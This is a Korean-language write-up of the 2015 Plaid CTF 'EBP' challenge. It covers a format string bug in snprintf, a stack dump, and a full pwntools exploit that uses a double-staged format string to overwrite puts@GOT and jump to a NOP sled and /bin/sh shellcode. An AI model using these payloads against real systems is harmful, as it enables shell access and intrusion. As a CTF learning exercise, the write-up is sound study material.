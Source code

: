 ```yaml
---
title: "2015 Plaid CTF EBP"
date: 2020-1-27
tags: [Plaid]
categories: [Plaid]
---
```


32비트 바이너리고 Partial RELRO밖에 안 걸려있다.

```
[*] '/vagrant/ctfs/ebp'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

메인에서 전역변수 buf에 입력받는다. 근데 snprintf가 사용되는데 buf에 포맷스트링 있으면 포맷스트링 버그를 일으킬 수 있다. 일단 전역변수로 입력받으니까 Double Staged Format String Bug로 익스해야할거다.

```c
int echo()
{
  make_response();
  puts(response);
  return fflush(stdout);
}

int make_response()
{
  return snprintf(response, 1024u, buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax

  while ( 1 )
  {
    result = fgets(buf, 1024, stdin);
    if ( !result )
      break;
    echo();
  }
  return result;
}
```

snprintf 실행하기 전에 스택을 보면 이렇게 되어있다. 

```
pwndbg> x/50wx $esp
0xffffd350:	0x0804a480	0x00000400	0x0804a080	0xf7fd51b0
0xffffd360:	0xf7fe77eb	0x00000000	0xffffd388	0x0804852c
0xffffd370:	0xffffd3a8	0xf7fee010	0xf7e6915b	0x00000000
0xffffd380:	0xf7fbd000	0xf7fbd000	0xffffd3a8	0x08048557
0xffffd390:	0x0804a080	0x00000400	0xf7fbd5a0	0x00000000
0xffffd3a0:	0xf7fbd000	0xf7fbd000	0x00000000	0xf7e23637
0xffffd3b0:	0x00000001	0xffffd444	0xffffd44c	0x00000000
0xffffd3c0:	0x00000000	0x00000000	0xf7fbd000	0xf7ffdc04
0xffffd3d0:	0xf7ffd000	0x00000000	0xf7fbd000	0xf7fbd000
0xffffd3e0:	0x00000000	0xaf9aa8a5	0x945626b5	0x00000000
0xffffd3f0:	0x00000000	0x00000000	0x00000001	0x08048400
0xffffd400:	0x00000000	0xf7fee010	0xf7fe8880	0xf7ffd000
```

0x0804a480는 response의 주소 0x0804a080는 buf의 주소다. 

익스는 0xffffd368을 보면 0xffffd388를 가르키고 있는 포인터다. 일단 0xffffd368를 puts@got로 덮으면 0xffffd388이 덮일거다. 그리고 puts@got주소를 buf+100으로 덮고 nop sled뒤에 shellcode 넣으면 puts실행될 때 쉘코드가 실행될거다.

> exploit.py

```python
from pwn import *

e = ELF('./ebp')
p = process('./ebp')

#shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'
shellcode = '\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80'
fflush_got = 0x0804a00c
fgets_got = 0x0804a010
puts_got = 0x0804a014
snprintf_got = 0x0804a020
buf = 0x0804A080

#payload = '%{}c%n'.format('134520852')
payload = "%{}c%4$n".format(e.got['puts'])
p.sendline(payload)

payload2 = '%{}c%12$n'.format(buf+100)
payload2 += '\x90'*300
payload2 += shellcode
p.sendline(payload2)

p.interactive()
```

